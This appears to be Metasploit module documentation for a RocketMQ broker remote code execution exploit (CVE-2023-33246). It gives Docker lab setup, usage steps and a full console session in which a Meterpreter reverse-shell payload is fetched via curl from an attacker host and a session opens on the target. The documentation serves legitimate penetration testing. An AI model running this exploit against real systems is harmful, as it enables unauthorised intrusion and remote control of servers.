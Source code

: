 ## Vulnerable Application

RocketMQ versions 5.1.0 and below are vulnerable to Arbitrary Code Injection. Broker component of RocketMQ is
leaked on the extranet and lack permission verification. An attacker can exploit this vulnerability by using
the update configuration function to execute commands as the system users that RocketMQ is running as.
Additionally, an attacker can achieve the same effect by forging the RocketMQ protocol content.

### Setup

#### Docker setup
Instructions taken from https://github.com/Malayke/CVE-2023-33246_RocketMQ_RCE_EXPLOIT

```
    docker pull apache/rocketmq:4.9.4
    # Start nameserver
    docker run --rm --name rmqnamesrv -p 9876:9876 apache/rocketmq:4.9.4 sh mqnamesrv
    # Start Broker
    docker run --rm --name rmqbroker --link rmqnamesrv:namesrv -e "NAMESRV_ADDR=namesrv:9876" -p 10909:10909 -p 10911:10911 -p 10912:10912 apache/rocketmq:4.9.4 sh mqbroker -c /home/rocketmq/rocketmq-4.9.4/conf/broker.conf
```

## Verification Steps

1. Start msfconsole.
1. Do: ` use exploit/multi/http/apache_rocketmq_update_config`.
1. Set the `RHOST` and `LHOST` options.
1. Run the module.
1. Receive a session in the context of the user running the RocketMQ application.

## Options

### BROKER_PORT
The port the target RocketMQ Broker component is running on. If left unset the default port will be used if a Broker
port associated with the RHOST cannot be determined from querying the RocketMQ NameServer.

## Scenarios

### Docker container running RocketMQ 4.9.4, Target: Automatic (Unix In-Memory)

```
msf > use multi/http/apache_rocketmq_update_config
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/apache_rocketmq_update_config) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/http/apache_rocketmq_update_config) > set FETCH_SRVHOST 172.16.199.158
FETCH_SRVHOST => 172.16.199.158
msf exploit(multi/http/apache_rocketmq_update_config) > set lhost 172.16.199.158
lhost => 172.16.199.158
msf exploit(multi/http/apache_rocketmq_update_config) > options

Module options (exploit/multi/http/apache_rocketmq_update_config):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   BROKER_PORT  10911            no        The RocketMQ Broker port. If left unset the module will attempt to retrieve the Broker port from the
                                           NameServer response (recommended)
   RHOSTS       127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.htm
                                           l
   RPORT        9876             yes       The RocketMQ NameServer port (TCP)
   SSL          false            no        Negotiate SSL for incoming connections
   SSLCert                       no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                       no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0
                                        to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      OAvAHUouS        no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST       172.16.199.158   yes       Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               172.16.199.158   yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)



View the full module info with the info, or info -d command.

msf exploit(multi/http/apache_rocketmq_update_config) > run

[*] Started reverse TCP handler on 172.16.199.158:4444
[*] 127.0.0.1:9876 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:9876 - The target appears to be vulnerable. RocketMQ version: 4.9.4
[*] 127.0.0.1:9876 - autodetection failed, assuming default port of 10911
[*] 127.0.0.1:9876 - Executing target: Automatic (Unix In-Memory) with payload cmd/linux/http/x64/meterpreter/reverse_tcp on Broker port: 10911
[*] Sending stage (3045348 bytes) to 172.17.0.3
[*] 127.0.0.1:9876 - Removing the payload from where it was injected into $ROCKETMQ_HOME. The FilterServerManager class will execute the payload every 30 seconds until this is reverted
[+] 127.0.0.1:9876 - Determined the original $ROCKETMQ_HOME: /home/rocketmq/rocketmq-4.9.4
[*] 127.0.0.1:9876 - Re-running the exploit in order to reset the proper $ROCKETMQ_HOME value
[*] Meterpreter session 5 opened (172.16.199.158:4444 -> 172.17.0.3:35532) at 2023-07-04 11:26:58 -0700

meterpreter > getuid
Server username: rocketmq
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : CentOS 7.9.2009 (Linux 5.15.0-76-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

